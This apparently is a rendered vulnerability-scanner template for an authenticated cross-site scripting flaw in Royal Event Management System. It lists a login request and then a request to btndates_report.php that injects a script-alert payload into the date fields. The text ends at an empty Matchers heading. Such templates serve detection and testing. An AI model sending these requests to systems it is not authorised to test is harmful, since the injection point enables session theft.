 **Type - status**
- status
    1. 200

---
# Royal Event Management System - Cross-Site Scripting
## Description
- Royal Event Management System contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.

- severity - high
- tags - cms,royalevent,packetstorm,xss,authenticated
## Requests
### Step - 1
```
POST /royal_event/ HTTP/1.1
Host: {{Hostname}}
Content-Length: 353
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCSxQll1eihcqgIgD

------WebKitFormBoundaryCSxQll1eihcqgIgD
Content-Disposition: form-data; name="username"

{{username}}
------WebKitFormBoundaryCSxQll1eihcqgIgD
Content-Disposition: form-data; name="password"

{{password}}
------WebKitFormBoundaryCSxQll1eihcqgIgD
Content-Disposition: form-data; name="login"

------WebKitFormBoundaryCSxQll1eihcqgIgD--

```
### Step - 2
```
POST /royal_event/btndates_report.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFboH5ITu7DsGIGrD

------WebKitFormBoundaryFboH5ITu7DsGIGrD
Content-Disposition: form-data; name="todate"

2022-12-22\<script>alert(document.domain)\</script>
------WebKitFormBoundaryFboH5ITu7DsGIGrD
Content-Disposition: form-data; name="search"

3
------WebKitFormBoundaryFboH5ITu7DsGIGrD
Content-Disposition: form-data; name="fromdate"

2022-06-22\<script>alert(document.domain)\</script>
------WebKitFormBoundaryFboH5ITu7DsGIGrD--

```
### Matchers
